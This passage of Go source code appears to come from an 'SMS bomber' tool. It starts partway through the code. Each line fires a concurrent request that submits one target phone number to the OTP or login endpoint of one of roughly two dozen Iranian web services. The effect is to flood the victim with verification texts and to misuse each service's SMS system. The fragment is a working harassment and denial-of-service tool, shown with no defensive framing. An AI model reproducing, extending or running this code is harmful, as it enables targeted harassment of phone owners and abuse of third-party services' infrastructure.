 		}, ch)
		go sms("https://ws.alibaba.ir/api/v3/account/mobile/otp", map[string]interface{}{
			"phoneNumber": phone,
		}, ch)
		// go sms("https://api.snapp.market/mart/v1/user/loginMobileWithNoPass?cellphone=0", map[string]interface{}{
		// 	"":phone}, ch)
		go sms("https://api.bitbarg.com/api/v1/authentication/registerOrLogin", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://api.bahramshop.ir/api/user/validate/username", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://mobapi.banimode.com/api/v2/auth/request", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://takshopaccessorise.ir/api/v1/sessions/login_request", map[string]interface{}{
			"mobile_phone": phone,
		}, ch)
		go sms("https://api.bitpin.ir/v1/usr/sub_phone/", map[string]interface{}{
			"phone=": phone,
		}, ch)
		go sms("https://chamedoon.com/api/v1/membership/guest/request_mobile_verification", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://server.kilid.com/global_auth_api/v1.0/authenticate/login/realm/otp/start?realm=PORTAL", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://pinket.com/api/cu/v2/phone-verification", map[string]interface{}{
			"phoneNumber": phone,
		}, ch)
		go sms("https://core.otaghak.com/odata/Otaghak/Users/SendVerificationCode", map[string]interface{}{
			"userName": phone,
		}, ch)
		go sms("https://www.shab.ir/api/fa/sandbox/v_1_4/auth/enter-mobile", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://bit24.cash/app/api/auth/check-mobile", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://app.itoll.ir/api/v1/auth/login", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api.raybit.net:3111/api/v1/authentication/register/mobile", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://www.pubisha.com/login/checkCustomerActivation", map[string]interface{}{
			"mobile=": phone,
		}, ch)
		go sms("https://farvi.shop/api/v1/sessions/login_request", map[string]interface{}{
			"mobile_phone": phone,
		}, ch)
		go sms("https://gw.taaghche.com/v4/site/auth/signup", map[string]interface{}{
			"contact": phone,
		}, ch)
		go sms("https://www.namava.ir/api/v1.0/accounts/registrations/by-phone/request", map[string]interface{}{
			"UserName": phone,
		}, ch)
		go sms("https://www.sheypoor.com/auth", map[string]interface{}{
			"username": phone,
		}, ch)